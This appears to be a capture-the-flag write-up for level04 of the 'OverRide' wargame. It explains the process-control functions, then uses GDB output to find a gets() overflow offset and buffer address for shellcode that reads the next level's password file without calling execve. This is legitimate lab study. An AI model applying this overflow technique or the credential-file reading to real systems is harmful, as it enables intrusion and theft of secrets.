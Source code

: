 [Dogbolt - Decompiler Explorator](https://dogbolt.org/)
# Tools
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit
This exercice let's us explore the different threading mechanics.

# Explanations
We decompile the code using Dogbolt, and reverse engineer it.
There are many functions that ar enot so commonly used, so I recommend you just them using the man.
Still, I will give small brief about each of the important ones, in the order they are called:

## Functions
### `fork()`
```c
#include <unistd.h>

pid_t fork(void);
```
**Description**
Creates a new process, which starts at the point of execution where `fork()` has been called.
The newly created process (child process) is an exact copy of the calling process (the parent process) except:
- The child process has a unique process ID (PID), different from the parent's
- The child process has its copy of the parent's descriptors (see man)
- The child processes resource utilization are set to 0 (see man)
**Return values**
On success:
- Returns 0 to the child process, the PID of the child to the parent process
On failure:
- No child process is created, returns -1 and sets errno

### `wait()`
```c
#include <sys/wait.h>

pid_t wait(int *stat_loc);
```
**Description**
Susprends execution of its calling process until `stat_loc` information is available for a terminated chil process, or a signal is received,
On return from a successful `wait()` call, the `stat_loc` area contains termination information about the process that exited (see man)

Using different macros, we can get the information stored inside of `stat_loc` (see man)

### `ptrace()`
```c
#include <sys/types.h>
#include <sys/ptrace.h>

int ptrace(int request, pid_t pid, caddr_t addr, int data);
```
**Description**
Process tracing and debugging. Allows one process (the tracing process) to control another process (the traced process). Often, the traced process runs normally, but when it receives a signal, it stops. The tracing process is expected to notive this via `wait()` or the delivery of a SIGCHLD signal, examine the state of the stopped process, and cause it to terminate or continue as appropriate. All of that done through `ptrace()`.
**Arguments**
- `int request`: what operation is being performed (rest of the arguments will depend on it, except one case) (see Linux man)
	- `PTRACE_PEEKUSER`: read a word of data at iffset `addr` in the traced's USER area, that contains the register and other information about the process (see `<sys/user.h>`). The word is returned as the result of the `ptrace()` call. `data` is ignored.
	- `PTRACE_TRACEME`: Indicates that this process is being tracked by its parent. A process shouldn't do that if its parent isn't expecting to trace it (`pid`, `addr` and `data` are ignored).
	Only used by the traced process. The remaining operations are performed only by the tracing process. `pid` specifies the PID of the traced process. For operations other than `PTRACE_ATTACH`, `PTRACE_SIZE`, `PTRACE_INTERRUPT`, and `PTRACE_KILL`, the traced process must be stopped.
- `pid_t pid`: the PID of the traced process

### `kill()`
```c
#include <sys/types.h>
#include <signal.h>

int kill(pid_t pid, int sig);
```
**Description**
Send a signal to a process. Returns 0 on success. `pid` is to PID of the process to send the signal to, and `sig` the signal to send.

### `prctl()`
```c
#include <linux/prctl.h>
#include <sys/prctl.h>

int prctl(int op, ...);
```
**Description**
Used to manipulate various aspects of a thread or process. The first argument is the action, and the remainder or the arguments depends on that very first one.

At first, I thought that I would need to exploit some forking mechanism.
In fact, it's more about creating a shellcode that doesn't use `execve()`, as it's catched in the process and makes the process kill itself.

So, what do we traditionally do when we get a shellcode? We `cat /homes/levelxx/.pass`
What does cat do? It `open()`, `read()` and `write()`. No `execve()`.
So, we want to craft a payload that opens `/homes/level05/.pass`, reads its content and writes it to us on the standard output.

First, we want to make the program segfault. More precisely, it's the child that's going to segfault, not the entire program, since its the one making the `gets()` call.
To do that, we are going to make use of GDB, and tell it to track the child and not the parent process.
```
level04@OverRide:~$ gdb level04
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
(gdb) set follow-fork-mode child
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) b gets
Breakpoint 2 at 0x80484b0
(gdb) b *0x08048763
Breakpoint 3 at 0x8048763
```
We break at main, the `gets()` call and the address just after the `gets()` call (see `desass main`)
We ran the program, and fill `gets()` with:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ

Breakpoint 3, 0x08048763 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x49494949 in ?? ()
(gdb) i r
eax            0x0	0
ecx            0xf7fd08c4	-134412092
edx            0xffffd680	-10624
ebx            0x46464646	1179010630
esp            0xffffd720	0xffffd720
ebp            0x48484848	0x48484848
esi            0x0	0
edi            0x47474747	1195853639
eip            0x49494949	0x49494949
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```
As we can see, the program segfault'ed as it tried to go to address `0x49494949`. `49` is `I` in ASCII.
Thus, we need to write 157 characters and then write the address of our shellcode.

Second, we can get the address of the buffer by showing the content of the stack on the third breakpoint:
```
(gdb) x/80x $esp
0xffffd660:	0xffffd680	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000b80	0x00000000	0xf7fdc714	0x00000000
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd700:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd710:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd720:	0x4a4a4a4a	0xffffd700	0xffffd7bc	0xf7fd3000
```
`0xffffd680` is the address at which we start to write the data given by `gets()`.

Third, let's craft the payload, in ASM, then compile it and make a Python function to print it.
For the ASM shellcode, see `Resources/shellcode.s`, for the Python function, see `Resources/script.py`.